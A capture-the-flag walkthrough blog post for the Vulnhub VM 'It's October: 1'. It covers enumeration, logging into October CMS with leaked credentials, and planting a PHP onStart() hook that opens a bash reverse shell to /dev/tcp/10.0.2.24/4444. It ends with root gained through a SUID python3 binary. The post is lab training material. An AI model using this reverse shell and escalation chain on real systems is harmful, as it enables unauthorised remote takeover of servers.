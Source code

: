 |[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

# **It's October: 1**

The virtual machine is released on April 8, 2020 at Vulnhub.  The goal is to get the root flag of the target.  However, it encourages you to use the functionalities rather than vulnerabilities of the target.  It is designed to test your penetration testing skills and concepts.

Available on : [Vulnhub](https://www.vulnhub.com/entry/its-october-1,460/)  
Difficulty : Easy/Medium Level  
Format : OVA (Virtualbox)

Kali Linux 2020.1b is used for the testing.

The VM shows the IP address of the box when you boot it up.  However, you can confirm the IP address on your own.

```bash
sudo netdiscover -r 10.0.2.0/24
```

![](https://raw.githubusercontent.com/samiux/images/master/october/001.png)  

The target's IP address is ```10.0.2.31```.

```bash
sudo nmap -Pn -p- -sS -sV -A 10.0.2.31
```

![](https://raw.githubusercontent.com/samiux/images/master/october/002.png)

The screenshot of ```http://10.0.2.31``` is :

![](https://raw.githubusercontent.com/samiux/images/master/october/003.png)

The screenshot of ```http://10.0.2.31:8080``` is :

![](https://raw.githubusercontent.com/samiux/images/master/october/004.png)

Inspect the source code of port 8080 and find ```mynote.txt``` on the page.  Let's access the ```mynote.txt```.  It shows the username and password.  However, we do not know the admin page yet.  It is suspected to be on port 80 instead of 8080.

![](https://raw.githubusercontent.com/samiux/images/master/october/005.png)

![](https://raw.githubusercontent.com/samiux/images/master/october/006.png)

We need to find out the admin page of the port 80 by gobuster.  We need to set the threads to 5 or errors may be shown.

```bash
sudo gobuster dir -u http://10.0.2.31 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t5
```

When access ```backend``` directory, the admin panel page is shown.

![](https://raw.githubusercontent.com/samiux/images/master/october/007.png)

![](https://raw.githubusercontent.com/samiux/images/master/october/008.png)

Log in with username ```admin``` and password ```adminadmin2```.

![](https://raw.githubusercontent.com/samiux/images/master/october/009.png)

The version is ```build 465``` and it is the current version as at the time of this writing.  The is no known vulnerability found so far.

After reading the documentation of the [October CMS](https://octobercms.com/docs/cms/pages#life-cycle-response), it is suspected that it is desgined to run ```JavaScript``` by default.  Let's confirm it!

```html
<html>
<body>
	<script>alert("xss");</script>
</body>
</html>
```

![](https://raw.githubusercontent.com/samiux/images/master/october/012.png)

![](https://raw.githubusercontent.com/samiux/images/master/october/010.png)

![](https://raw.githubusercontent.com/samiux/images/master/october/011.png)

It is confirmed that it can run ```JavasScript``` by default.  Let's use ```onStart()``` function to execute the bash shell.

```javascript
function onstart() {
	exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.2.24/4444 0>&1'");
}
```

![](https://raw.githubusercontent.com/samiux/images/master/october/013.png)

The netcat listener at port 4444 on Kali Linux.

```bash
nc -lvp 4444
```

![](https://raw.githubusercontent.com/samiux/images/master/october/014.png)

After saved the page and ```review``` it.  The shell is ported accordingly.

![](https://raw.githubusercontent.com/samiux/images/master/october/015.png)

The current user is ```www-data```.  We need to find a way for privilege escalation.

```bash
find / -perm -u=s -type f 2>/dev/null
```

The output shows that ```python3.7``` is in stricty bit.  We try to privilege escalate it.

```bash
python3 -c 'import os; os.execl("/bin/bash", "bash", "-p")'
```

As a result, we get ```euid=0(root)``` after running the above command.

We then go to the /root and display the ```proof.txt```.  Bingo!  Root is dancing!

![](https://raw.githubusercontent.com/samiux/images/master/october/016.png)

### Final thought

This is a typical Capture The Flag (CTF) game, however, it does not use the vulnerability to exploit it.  It is very a interesting box indeed!

Samiux  
OSCE  OSCP  OSWP  
April 19, 2020, Hong Kong, China  


|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|
